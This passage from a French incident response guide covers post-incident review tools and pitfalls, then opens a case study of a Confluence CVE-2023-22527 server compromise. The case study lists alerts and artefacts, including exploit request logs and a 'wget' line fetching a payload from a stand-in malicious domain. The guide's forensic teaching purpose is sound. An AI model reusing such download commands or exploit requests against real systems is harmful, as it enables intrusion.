 | **Efficacité de la Détection** | % d'incidents détectés par les outils vs. signalements externes | > 80% interne |

#### 🛠️ Outils et Méthodes Recommandés

| Catégorie | Exemples d'Outils/Méthodes | Usage Principal |
|-----------|----------------------------|-----------------|
| **Facilitation** | Méthode 5 Whys, Fishbone Diagram, Timeline Analysis | Analyse des causes racines |
| **Documentation** | Confluence, SharePoint, Wiki | Capitalisation des connaissances |
| **Gestion de Projet** | Jira, Trello, Asana | Suivi des actions d'amélioration |
| **Métriques** | Tableau de bord SIEM, Excel, Power BI | Mesure de l'efficacité |
| **Formation** | Plateformes e-learning, simulations | Amélioration des compétences |

#### ⚠️ Points de Vigilance

-   **Négligence de cette phase:** Perte d'opportunités d'amélioration.
-   **Approche punitive:** Peut inhiber la transparence et l'apprentissage.
-   **Manque de suivi:** Les actions d'amélioration ne sont pas mises en œuvre.
-   **Documentation insuffisante:** Perte de la mémoire organisationnelle.
-   **Partage limité:** Les autres équipes ne bénéficient pas des leçons apprises.

---


## 💼 PARTIE III - CAS PRATIQUES DÉTAILLÉS

> **Objectif:** Fournir des scénarios réels d'incidents avec des procédures d'investigation détaillées, des techniques d'analyse spécifiques et des leçons apprises pour chaque type de menace.

### 🌐 Chapitre 13: Compromission de Serveurs Web

#### 📋 Cas Pratique: Exploitation Confluence CVE-2023-22527

**🏢 Contexte Organisationnel:**
- **Secteur:** Services informatiques (150 employés)
- **Infrastructure:** Serveur Confluence 8.3.2 exposé sur Internet
- **Détection:** Alertes de trafic réseau anormal vers des IPs externes
- **Impact Initial:** Accès non autorisé aux espaces de documentation sensible

#### 🔍 Symptômes et Indicateurs Initiaux

**Alertes Techniques Observées:**
- 🚨 **Connexions sortantes suspectes** vers 185.234.72.45:443
- 📊 **Pic d'utilisation CPU** sur le serveur Confluence (>90%)
- 🔍 **Requêtes HTTP anormales** dans les logs Apache
- 📁 **Création de fichiers** dans /tmp/ avec des noms aléatoires
- 🌐 **Résolution DNS** vers des domaines récemment enregistrés

**Premiers Artefacts Identifiés:**
```bash
# Logs Apache montrant l'exploitation
192.168.1.100 - - [10/Jun/2025:09:15:23 +0000] "POST /template/aui/text-inline.vm HTTP/1.1" 200 1337
192.168.1.100 - - [10/Jun/2025:09:15:24 +0000] "GET /pages/createpage-entervariables.action?templateId=557057 HTTP/1.1" 200 2048

# Processus suspects identifiés
PID 15847: /tmp/.java_update (processus non légitime)
PID 15892: wget http://malicious-domain.com/payload.sh
```
